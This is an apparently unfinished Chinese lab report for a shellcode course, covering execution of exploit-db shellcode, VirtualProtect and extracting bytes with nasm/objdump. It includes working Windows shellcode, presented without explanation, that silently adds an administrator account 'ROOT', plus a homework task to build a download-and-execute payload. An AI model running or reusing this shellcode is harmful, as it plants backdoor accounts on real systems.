







# ShellCode
## 实验背景
## 实验完成度
## 作业
1. 详细阅读 www.exploit-db.com 中的shellcode。建议找不同功能的，不同平台的 3-4个shellcode解读。
2. 修改示例代码的shellcode，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA
3. 其中第二个作业，原参考代码只调用了一个API函数，作业要求调用更多的API函数了，其中涉及到的参数也更复杂，但是原理是相通的。URLDownloadToFileA函数在 Urlmon.dll 这个dll中，这个dll不是默认加载的，所以可能还需要调用LoadLibrary函数

## 课内实验
[Null-Free WinExec Calc.exe Shellcode](https://www.exploit-db.com/shellcodes/48116)
1. 这个shellcode的功能是运行一个计算器程序。这个是白帽子黑客们在编写PoC时最常使用的一种方法。能证明系统被控制，因为如果能悄无声息的运行计算机程序，理论上来说就能运行任何程序，改一个参数的事。
2. 下面是一段C语言的代码。其中汇编部分是源代码。C语言中的 code 变量，是前面的汇编代码在编译以后的二进制程序。这一段就是可运行的shellcode了。然后下面的main函数，是吧这个code运行起来。
3. 这一段代码用到了一个较为高级的C语言语法，函数指针。              
                              
* 定义了一个函数指针变量，func
* 这个函数指针的变量类型是 int(*)().表示返回值是int，参数列表为空的一个函数。
* 在main函数的第二行，把全局变量 code 赋值给 func。并强制类型转换为 int(*)() 类型的函数指针。这样 func就有值了。
* 就可以被调用了，由于func所指向的地址，就是code的地址，所有调用func的时候，运行的就是 code里面的那一堆二进制代码。
4. 现在VS中建一个空工程，把###########后整个C语言部分复制到VS中。         
                             
* 出现`错误 C2440 “类型转换”: 无法从“char [196]”转换为“int (__cdecl *)(void)” `,把.cpp重命名为 .c，再次执行
5. 调试运行
* 会出现一个错误`0x001D9000 处(位于 Project1.exe 中)引发的异常: 0xC0000005: 执行位置 0x001D9000 时发生访问冲突`                        
                              
* 0xC0000005 是Windows系统内部错误代码，表示内存访问异常。
* 这个错误，表示你当前访问了一个未分配的内存地址。或者，所访问的内存地址的保护属性冲突。比如如果内存的保护属性是 readonly，但是你写入了，那么也会引起这个访问异常错误。
6. 下一个断点，单步执行。是在运行`(int)(*func)()`时出错的。           
                             
* 这一行是调用 func执行，而现在func是指向code的，也就是func的值是code的内存地址。
* 而code这段内存是存在的，它是一段已经分配的内存。因为它是全局变量，在程序运行起来后，就存在内存中，是进程的初始化过程就完成了内存分配，并由进程初始化程序从可执行文件中直接载入内存的。全局变量，肯定是有效地址，是可以访问的。
* 那就应该是第二种情况，内存分页的保护属性问题。
* 其实和Linux里的文件类似，操作系统中的内存分页，也分为读写执行三种保护属性。由于code是全局变量，是数据，通常情况下，会给数据设置可读和可写的内存保护属性，但是一般不会给执行属性。但是我们要去执行它，所以可能引发了异常。
7. `func = (int(*)()) code;`处下断点，调试窗口->右键转到反汇编。
8. F1直到停到`call func`处              
                              
9. 再按F11，`mov         esi,esp`处出现异常                  
                             
这里 00FD7000 就是code的第一个字节的位置
10. 修改错误，就是修改内存保护属性。用`VirtualProtect`,改一下代码         
```c
int main(int argc, char** argv)
{
	int(*func)();
	DWORD dwOldProtect;
	func = (int(*)()) code;
	VirtualProtect(func, sizeof(code), PAGE_EXECUTE_READWRITE, &dwOldProtect);
	(int)(*func)();
}
```
出现了计算机                       
                              
* VirtualProtect 函数会把第一个参数，这里是 func，所指向的内存地址的 第二个参数，这里是 sizeof(code)，这段内存区域所在分页的内存属性修改为第三个参数的属性。
* PAGE_EXECUTE_READWRITE 表示这段内存，是可读可写可执行。
* 通过第四个参数 dwOldProtect 反正在修改之前的内存保护属性。
11. `(int)(*func)();`处下断点，运行到断点处，转到反汇编，F11           
                             
* 和源代码中的汇编部分，是不是一样的                         
                              
* 字节码部分 89 e5 ... 是和 code一样的
                             
* code反汇编之后，就是汇编的源码。其实，我们这段code，就是通过前面的汇编代码，编译以后直接从汇编编译以后，从可执行文件中 dump出来的。
12. 把下图代码保存为`win32-WinExec_Calc-Exit.asm`传到linux系统                   
                             
```bash
# linux
nasm -f win32 win32-WinExec_Calc-Exit.asm -o win32-WinExec_Calc-Exit.o
for i in $(objdump -D win32-WinExec_Calc-Exit.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```
                              
13. 如果我们用C语言编写一个运行计算器的程序，其实很简单。我们只需要调用一下WinExec函数，或者CreateProcess函数。如果用汇编来写，也就是几条指令的事。几个参数 push 入栈以后，call函数地址就可以了。就能调用函数地址。
14. shellcode中还用到了字符串。至少函数地址的名称是需要的。还有调用WinExec的参数 calc.exe
* 如果我们在C语言里编程，编译器会把可执行程序的代码和字符串，放在不同的地址。代码 机器指令在 text段中， 字符串在data段中。地址相差很远。而我们objdump，只取了代码段，没有取数据段，那要shellcode就太大了，而且中间可能会有很多的填充字符。而且数据地址很有可能是绝对地址。
* code一dump出来，放在了其他环境中执行，那么地址就变了。所以字符串，code也是找不到的。编一个程序，用到字符串，可以看看字符串的地址和代码的地址，差很远。那唯一的办法，用一种什么方式，把字符串硬编码在shellcode中。让字符串，变为代码的一部分，内嵌在机器指令中。
* 636c6163，6578652e是 calc.exe的big ending 反写。压入栈以后，就形成了字符串。这样就把字符串嵌入机器指令了，作为机器指令的操作数。            
                 
## 实验过程
1. 进入[exploit-db](https://www.exploit-db.com),点击旁边列表里的shellcode,挑选不同平台的 3-4个shellcode
                                      
2. 通过filter筛选平台为windows的                           
                                      
### 
1.
```cpp
#include <windows.h>
#include <stdio.h>

char code[] = \
"\x31\xc0\x64\x8b\x40\x30\x8b\x40\x0c\x8b\x70\x1c"
"\xad\x96\xad\x8b\x40\x08\x50\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x53\x20\x01\xc2\x8b\x4b"
"\x24\x01\xc1\x51\x8b\x7b\x1c\x01\xc7\x57\x68\x57"
"\x69\x6e\x45\x31\xc0\x89\xd7\x89\xe6\x31\xc9\xfc"
"\x8b\x3c\x87\x03\x7c\x24\x0c\x66\x83\xc1\x04\xf3"
"\xa6\x74\x03\x40\xeb\xe7\x8b\x4c\x24\x08\x66\x8b"
"\x04\x41\x8b\x54\x24\x04\x8b\x1c\x82\x03\x5c\x24"
"\x0c\x31\xc9\xf7\xe1\xb0\x44\x50\x68\x20\x2f\x41"
"\x44\x68\x52\x4f\x4f\x54\x68\x6f\x72\x73\x20\x68"
"\x74\x72\x61\x74\x68\x69\x6e\x69\x73\x68\x20\x41"
"\x64\x6d\x68\x72\x6f\x75\x70\x68\x63\x61\x6c\x67"
"\x68\x74\x20\x6c\x6f\x68\x26\x20\x6e\x65\x68\x44"
"\x44\x20\x26\x68\x24\x20\x2f\x41\x68\x52\x30\x30"
"\x54\x68\x20\x49\x40\x6d\x68\x52\x4f\x4f\x54\x68"
"\x73\x65\x72\x20\x68\x65\x74\x20\x75\x68\x2f\x63"
"\x20\x6e\x68\x65\x78\x65\x20\x68\x63\x6d\x64\x2e"
"\x89\xe0\x51\x50\xff\xd3";

int main(int argc, char **argv)
{
  int (*func)();
  func = (int(*)()) code;
  (int)(*func)();
}
```
将代码复制并将.cpp改成.c,然后运行

                                      
                                      
                                      
                                      
                                      
                                      
                                      
                                      
                                      
                                        
                                      
                                      
                                      
                                      
                                      
                                      
                                      
                                      
                                      
                                      
                                      
                                        
## 实验问题
                                      
                                      
                                      
                                      
                                      
                                      
                                      
                                      
                                      
                                      
                                      
                                        
## 实验结论

## 参考资料
* [microsoft !peb](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/-peb)
* [PEB结构学习](https://www.cnblogs.com/binlmmhc/p/6501545.html)
* [microsoft PEB structure](https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb)
* [Process_Environment_Block](https://en.wikipedia.org/wiki/Process_Environment_Block)
* [x]
* [x]
* [x]
https://www.exploit-db.com/shellcodes/46492
                                      
                                      
                                      
                                      
                                      
                                      
                                      
                                      
                                      
                                      
                                      
                                        
